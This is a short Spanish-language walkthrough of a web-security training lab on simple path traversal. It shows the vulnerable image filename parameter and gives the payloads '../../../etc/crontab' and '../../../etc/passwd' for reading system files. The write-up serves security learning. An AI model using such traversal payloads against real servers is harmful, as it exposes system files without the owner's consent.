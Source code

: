 # 01 Lab: File path traversal, simple case

## Objetivo

```bash
This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.
```

## Solución

1. Verificamos la aplicación y el funcionamiento.

[https://0a8d007b04dee1ae81b14d89002500e0.web-security-academy.net/image?filename=36.jpg](https://0a8d007b04dee1ae81b14d89002500e0.web-security-academy.net/image?filename=36.jpg)

![image.png](01%20Lab%20File%20path%20traversal,%20simple%20case%2017efab5460ec80e7b618de0f2e2c1c88/image.png)

1. Modificamos el parámetro `filename` en las consultas usando el siguiente payload.

```bash
../../../etc/crontab
```

![image.png](01%20Lab%20File%20path%20traversal,%20simple%20case%2017efab5460ec80e7b618de0f2e2c1c88/image%201.png)

```bash
../../../etc/passwd
```

![image.png](01%20Lab%20File%20path%20traversal,%20simple%20case%2017efab5460ec80e7b618de0f2e2c1c88/image%202.png)